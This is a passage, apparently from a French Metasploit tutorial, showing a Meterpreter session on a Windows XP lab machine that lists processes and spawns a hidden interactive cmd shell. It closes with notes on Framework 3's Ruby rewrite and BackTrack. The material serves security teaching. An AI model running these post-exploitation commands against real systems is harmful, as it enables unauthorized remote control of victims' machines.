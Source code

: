 ```text
meterpreter> ps  
meterpreter>  
Process list:  
Pid  
Name Path  
----- ------------ ----------  
00360 smss.exe \SystemRoot\System32\smss.exe  
00528 csrss.exe \??\C:\WINDOWS\system32\csrss.exe  
00556 winlogon.exe \??\C:\WINDOWS\system32\winlogon.exe  
00604 services.exe C:\WINDOWS\system32\services.exe  
00616  
lsass.exe C:\WINDOWS\system32\lsass.exe  
00864 svchost.exe C:\WINDOWS\system32\svchost.exe  
01008 svchost.exe C:\WINDOWS\System32\svchost.exe  
01084 svchost.exe C:\WINDOWS\System32\svchost.exe  
01156 svchost.exe C:\WINDOWS\System32\svchost.exe  
01360 spoolsv.exe C:\WINDOWS\system32\spoolsv.exe  
01588 VMwareService.exe C:\Program Files\VMware\VMware 
Tools\VMwareService.exe  
01172 Explorer.EXE C:\WINDOWS\Explorer.EXE  
01048 VMwareTray.exe C:\Program Files\VMware\VMware 
Tools\VMwareTray.exe  
01292 VMwareUser.exe  
C:\Program Files\VMware\VMware Tools\VMwareUser.exe  
01776 cmd.exe C:\WINDOWS\System32\cmd.exe  
01168 logon.scr C:\WINDOWS\System32\logon.scr  
17 processes.  
Meterpreter> 
meterpreter> execute -H -f cmd -c  
execute: Executing 'cmd'...  
meterpreter>  
execute: success, process id is 492.  
execute: allocated channel 6 for new process.  
meterpreter> interact 6  
interact: Switching to interactive console on 6...  
meterpreter>  
interact: Started interactive channel 6.  
Microsoft Windows XP [Version 5.1.2600]  
(C) Copyright 1985-2001 Microsoft Corp.  
C:\WINDOWS\system32>exit  
exit  
interact: Ending interactive session.  
Meterpreter>
```

#### e. Framework 3

Le framework 3 a été complètement réécrit en Ruby. La philosophie est la même que pour le framework 2.

Les frameworks 2 et 3 sont inclus par défaut dans la BackTrack. Tout ce que nous avons vu avant est donc valable pour cette version.
